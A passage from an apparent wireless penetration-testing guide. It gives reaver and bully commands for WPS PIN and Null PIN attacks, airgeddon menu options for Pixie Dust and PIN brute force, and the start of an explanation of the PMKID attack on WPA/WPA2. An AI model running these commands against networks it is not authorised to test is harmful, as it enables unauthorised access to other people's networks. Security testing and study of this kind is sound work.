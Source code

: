 ```bash
# reaver
reaver -i wlan1mon -b 00:C0:CA:78:B1:37 -c 9 -K 1 -N -vv

# bully
bully wlan1mon -b 00:C0:CA:78:B1:37 -d -v 3
```

#### Null Pin Attack
- Some really bad implementations allowed the Null PIN to connect (very weird also). Reaver can test this (Bully cannot).
```bash
reaver -i wlan1mon -b 00:C0:CA:78:B1:37 -c 9 -f -N -g 1 -vv -p ''
```

#### Using Airgeddon for WPS attacks
- All the proposed WPS attacks can be easily performed using **_airgeddon._**
![](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-LrdkBtWk80vqhdkrKSD%2F-LrdwGy4Z9OrL3uwIN-T%2Fimage.png?alt=media&token=ee594a6c-4d71-42e4-8f05-5ca370d6655b)
```
-   5 and 6 lets you try **your custom PIN** (if you have any)
    
-   7 and 8 perform the **Pixie Dust attack**
    
-   13 allows you to test the **NULL PIN**
    
-   11 and 12 will recollect the PINs related to the selected AP from available databases and generate possible PINs using: ComputePIN, EasyBox and optionally Arcadyan (recommended, why not?)
    
-   9 and 10 will test every possible PIN
```

---

## WEP 
- So broken and disappeared that I am not going to talk about it. Just know that **_airgeddon_** have a WEP option called "All-in-One" to attack this kind of protection. More tools offer similar options.

![](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-LrdkBtWk80vqhdkrKSD%2F-Lrdy3oyQgovEDnz-1lD%2Fimage.png?alt=media&token=ec047e84-1e4d-4c9d-9658-266513544e35)


---

## WPA/WPA2 PSK
In 2018 hashcat authors [disclosed](https://hashcat.net/forum/thread-7717.html) a new type of attack which not only relies **on one single packet**, but it doesn’t require any clients to be connected to our target AP but just communication between the attacker and the AP.

It turns out that **a lot** of modern routers append an **optional field** at the end of the **first EAPOL** frame sent by the AP itself when someone is associating, the so called `Robust Security Network`, which includes something called `PMKID`
